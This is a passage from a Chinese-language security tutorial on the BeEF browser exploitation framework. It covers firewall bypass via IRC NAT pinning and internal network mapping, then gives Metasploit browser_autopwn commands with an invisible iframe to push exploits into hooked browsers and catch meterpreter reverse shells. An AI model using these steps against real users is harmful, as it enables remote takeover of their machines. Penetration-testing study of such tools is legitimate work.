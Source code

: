 **10、IRC NAT Pinning**

模拟浏览器的IRC通信，可用来绕过防火墙

**11、网络拓扑**

BeEF可根据扫描获得的信息绘制内网网络拓扑 如图

![这里写图片描述](http://drops.javaweb.org/uploads/images/eb3631dddf9f319db71904f8d4f0f4e110fbb962.jpg)

![这里写图片描述](http://drops.javaweb.org/uploads/images/07bdf7d3ff47754198b74f782e96e9d35f6a98e7.jpg)

![这里写图片描述](http://drops.javaweb.org/uploads/images/f0df8dec37787421e9c9b8eb30eff1afd7c31105.jpg)

此部分会在以后详细介绍

4-结合Metasploit
--------------

**1、Metasploit系列模块**

如图

![这里写图片描述](http://drops.javaweb.org/uploads/images/0db557bf633a0ad166ac945110422ac4666be8b2.jpg)

**2、Browser Autopwn**

反弹回meterpreter

方法：

**（1）**使用Metasploit的Browser Autopwn功能生成BrowserAutoPwn URL

```
use auxiliary/server/browser_autopwn
show options
set LHOST 192.168.16.245
set SRVHOST 192.168.16.245
set SRVPORT 8881
run -z

```

生成一个链接，如图

![这里写图片描述](http://drops.javaweb.org/uploads/images/6a3072d55750ddedc48726f64a77bca1f790bfa6.jpg)

![这里写图片描述](http://drops.javaweb.org/uploads/images/4c08677fff0d2dfe6a596aa800d43a67267edf08.jpg)

**（2）**使用"Create Invisible Iframe"模块加载autopwn页面

如图

![这里写图片描述](http://drops.javaweb.org/uploads/images/b0d3b3162be3db3050697e10641573c43ecc40b6.jpg)

**（3）**等待弹回shell

```
sessions -l

```
